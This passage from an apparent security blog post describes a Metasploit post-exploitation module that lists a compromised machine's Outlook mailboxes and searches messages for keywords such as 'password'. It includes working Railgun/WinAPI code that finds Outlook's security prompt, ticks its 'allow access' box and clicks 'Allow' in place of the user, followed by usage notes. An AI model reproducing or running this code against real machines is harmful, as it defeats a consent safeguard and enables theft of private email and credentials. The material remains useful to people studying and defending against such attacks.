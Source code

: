      Write-Host "Folder" $Folder "not found in mailbox" $acc.Name
    }
  }
  if(-Not $found) {
    Write-Host "Searchterm" $searchTerm "not found"
  }
}
{% endhighlight %}

The function &#8216;List-Folder&#8217; displays all the available mailboxes and associated folders in a local Outlook installation. The function &#8216;Get-Emails&#8217; is used to display messages in a specified folder, these messages can also be filtered by a keyword (for example &#8216;password&#8217;).

A problem which i stumbled on was a security popup when connecting to Outlook using powershell. The popup looks like this:

[<img class="alignnone  wp-image-202" src="https://forsec.nl/wp-content/uploads/2014/11/microsoft_outlook_security_popup.png" alt="microsoft_outlook_security_popup" width="430" height="239" />](https://forsec.nl/wp-content/uploads/2014/11/microsoft_outlook_security_popup.png)

It was quite a challenge to bypass this message, because it has to be clicked by the user manually. In the module i used WinAPI in order to accomplish the bypass. Please note, that a user behind the target system, can notice these activities. So keep in mind that they might be able to detect your activities when using this module. The following function is checking the &#8220;allow access for&#8221; box and clicking the &#8220;allow&#8221; button.

{% highlight powershell %}
def clickButton(atrans,acftrans)
    # This functions clicks on the security notification generated by Outlook.
    sleep 1
    hwnd = client.railgun.user32.FindWindowW(nil, "Microsoft Outlook")
    if hwnd != 0
      hwndChildCk = client.railgun.user32.FindWindowExW(hwnd['return'], nil, "Button", "&#{acftrans}")
      client.railgun.user32.SendMessageW(hwndChildCk['return'], 0x00F1, 1, nil)
      client.railgun.user32.MoveWindow(hwnd['return'],150,150,1,1,true)
      hwndChild = client.railgun.user32.FindWindowExW(hwnd['return'], nil, "Button", "#{atrans}")
      client.railgun.user32.SetActiveWindow(hwndChild['return'])
      client.railgun.user32.SetForegroundWindow(hwndChild['return'])
      client.railgun.user32.SetCursorPos(150,150)
      client.railgun.user32.mouse_event(0x0002,150,150,nil,nil)
      client.railgun.user32.SendMessageW(hwndChild['return'], 0x00F5, 0, nil)
    else
      print_error("Error while clicking on the Outlook security notification. Window could not be found")
    end
  end
{% endhighlight %}

**Module usage**

The module can be installed by updating Metasploit. The module has two &#8216;ACTIONS&#8217;:

  * LIST: Display the available mailboxes and folders in a local Outlook installation
  * SEARCH: Display messages in a specified **FOLDER**, can be filtered by a **KEYWORD**
